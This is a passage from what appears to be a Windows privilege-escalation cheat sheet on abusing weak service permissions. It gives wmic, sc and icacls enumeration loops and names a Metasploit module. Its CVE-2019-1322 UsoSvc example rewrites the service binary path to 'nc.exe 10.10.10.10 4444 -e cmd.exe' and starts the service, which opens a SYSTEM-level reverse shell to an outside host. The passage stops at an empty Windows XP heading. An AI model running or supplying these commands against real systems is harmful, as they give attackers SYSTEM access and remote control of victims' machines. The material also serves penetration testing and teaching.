 - PATH directories with weak permissions

```powershell
$ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
$ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

$ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

Alternatively you can use the Metasploit exploit :
`exploit/windows/local/service_permissions`

Note to check file permissions you can use `cacls` and `icacls`

> icacls (Windows Vista +)
> cacls (Windows XP)

You are looking for `BUILTIN\Users:(F)`(Full access), `BUILTIN\Users:(M)`(Modify
access) or `BUILTIN\Users:(W)`(Write-only access) in the output.

### Example with Windows 10 - CVE-2019-1322 UsoSvc

Prerequisite: Service account

```powershell
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem

PS C:\Windows\system32> sc.exe start UsoSvc
```

### Example with Windows XP SP1 - upnphost
